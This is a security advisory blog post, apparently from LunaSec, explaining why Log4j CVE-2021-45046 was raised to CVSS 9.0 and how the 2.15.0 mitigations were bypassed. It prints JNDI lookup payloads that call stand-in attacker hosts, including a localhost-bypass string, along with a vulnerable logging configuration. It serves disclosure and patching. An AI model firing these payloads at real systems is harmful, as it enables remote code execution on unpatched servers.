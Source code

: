 ```yaml
---
title: "Log4Shell Update: Severity Upgraded 3.7 -> 9.0 for Second log4j Vulnerability (CVE-2021-45046)"
description: The second Log4j vulnerability was upgraded from a CVSS score of 3.7x (limited DOS) to a CVSS score of 9.7 (limited RCE), and we explain the impact.
slug: log4j-zero-day-severity-of-cve-2021-45046-increased
date: 2021-12-19
image: https://www.lunasec.io/docs/img/log4shell-keeps-coming.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors: [free, chris, forrest]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-keeps-coming.png)

_The logo gets worse as the situation gets worse..._

_Originally Posted @ December 17th & Last Updated @ December 19th, 3:37pm PST_

Earlier today, the second Log4j vulnerability (CVE-2021-45046) was upgraded from a [CVSS score of 3.7](https://web.archive.org/web/20211215180723/https://logging.apache.org/log4j/2.x/security.html)
(limited DOS) to a [CVSS score of 9.0](https://logging.apache.org/log4j/2.x/security.html) (limited RCE). Note: the reported
limited RCE has only been proven to be exploitable on macOS at the moment. We expect, in time, that other operating systems
will also be shown to be exploitable.

See the bottom of this post for an example exploit payload that bypasses the checks in log4j 2.15.0.

**Just trying to patch Log4Shell? Please read our dedicated
[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/).**

## Context on CVE Timeline

The Log4j team had previously released version 2.15.0 on December 6th to address, which at the time had only been
privately disclosed, the Log4Shell vulnerability that abused JNDI and LDAP to allow for an easily exploitable RCE
vulnerability. We posted a
[blog post](https://www.lunasec.io/docs/blog/log4j-zero-day/) about this new RCE that, at the time, was only being posted
about by the Chinese InfoSec community on December 9th, 2021. This post made the broader InfoSec community aware of the
ongoing exploitation and resulted in a frenzy as Java developers worked to patch themselves.

The following day, on December 10th, an official CVE was associated with this RCE vulnerability as
[CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) with the maximum possible CVSS score of
10.0.

In the days afterwards, it was realized that this fix was incomplete as bypasses were found that could result in a
limited DOS for 2.15.0 users and, for users that had patched older Log4j releases using `formatMsgNoLookups`, these
bypasses could be used to allow for limited RCE.

Version 2.16.0 was released on December 13th to address the vulnerabilities by completely disabling JNDI by default.
The next day, on December 14th, the second vulnerability was officially given a dedicated CVE numbered CVE-2021-45046
with a limited 3.7 (now 9.0).

In this post, we're going to talk about the impact of these changes and why the CVSS score has changed so drastically.

<!--truncate-->

## Understanding the new Bypass

With more attention on Log4j library now from the security community, we have seen security researchers digging into the
source code of this project. @pwntester [announced on Twitter](https://twitter.com/pwntester/status/1471465662975561734)
that there is a possible RCE still present in 2.15.0, under certain conditions.

> 2.15 with no formatMsgNoLookups mitigations is still vulnerable to RCE. 2.15.0 w/o those mitigations is vulnerable only
if attackers can control non-message parts of the pattern layout. Just to make it clear 2.15.0 disables message text lookups
by default, users need to enable them explicitly in the patterns with %m{lookups}. So mitigations are in place by default in 2.15.0

Version 2.15.0 was released in order to prevent RCE by only allowing LDAP connections to local addresses by default. This
development for the CVE means that there exists a bypass to these newly added security measures. Not everyone who has updated
to 2.15.0 is vulnerable to RCE as it requires a specific logging configuration. Since the `formatMsgNoLookups` property
is on by default in 2.15.0, to be vulnerable to this RCE, message text lookups must be manually enabled with `%m{lookups}`.

However, there even still are other ways in which a message lookup can take place. Some examples are discussed on the Log4j
security page:

> The reason these measures are insufficient is that, in addition to the Thread Context attack vector mentioned above,
there are still code paths in Log4j where message lookups could occur: known examples are applications that use
Logger.printf("%s", userInput), or applications that use a custom message factory, where the resulting messages do not
implement StringBuilderFormattable. There may be other attack vectors.

To summarize, 2.15.0 introduced changes to prevent remote connections in a message lookup (ie. a connection to `some-attacker.com`
will be blocked in: `${jndi:ldap://some-attacker.com/a}`), as well as disabled message lookups when logging by default:

```
String attackerData = "${jndi:ldap://some-attacker.com/a}";

// Message lookups are blocked in this log statement. Payload will not fire by default.
logger.info("Log string, but no lookup will happen: " + attackerData);
```

These changes were still not enough to prevent message lookups by default as there are other places in code where this could take place:

```
// Put attacker controlled data in
ThreadContext.put("layout-pattern-value", attackerData);
```

An example `log4j2.properties` file might look something like:

```
# The attacker data, "${jndi:ldap://some-attacker.com/a}", will be attempted to be looked up
appender.console.layout.pattern = ${ctx:layout-pattern-value} - %d{yyyy-MM-dd HH:mm:ss} %-5p %c{1}:%L - %m%n
```

However, since only local connections were allowed in 2.15.0, the impact of this vulnerability were minimal.
The most impactful way to exploit this vulnerability was to have `String attackerData = "${ctx:layout-pattern-value"`
which would result in a recursive reference in the lookup. With the reported bypass of the restrictive remote connection
list, a full RCE is possible in the above code as we can access `some-attacker.com` now.

It is strongly recommended that you update to ~~2.16.0~~ 2.17.0 (Updated 12/19), even if you have previously updated to 2.15.0 or 2.16.0, to mitigate these
new bypasses. (Updated 12/19 due to new DOS found in 2.16.0. Please upgrade to 2.17.0 to mitigate issues in previous versions.)

## Update: The localhost Bypass was Discovered!

It was [posted](https://twitter.com/marcioalm/status/1471740771581652995) on Twitter by Márcio Almeida early on
December 17th.

This payload will bypass the network host restrictions in log4j 2.15.0 and allow full RCE again:
```
${jndi:ldap://127.0.0.1#evilhost.com:1389/a}
```

As noted in the security report, a proof of concept exploit has only been successfully executed on macOS. Considering
how many Java developers may use macOS, this is still a significant finding.

We are still investigating how to have this exploit work properly on other operating systems. It has been proposed that
[changing the default provider](https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html#:~:text=sun.net.spi.nameservice.provider.%3Cn%3E%3D%3Cdefault%7Cdns%2Csun%7C...%3E)
to `dns,sun`:

```
System.setProperty("http://sun.net.spi.nameservice.provider.1", "dns,sun")
```

will cause the exploit to bypass the allowed hosts check in `2.15.0` properly. However, we have not been able to replicate
this yet.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Additional Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**,
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**,
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**,
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-17-log4j-update-increased-cvss.mdx).
:::

### Edits

1. Added a note that the RCE has only been provably exploitable on macOS
2. 12/19/21: Updated info about 2.17.0 release due to CVE.
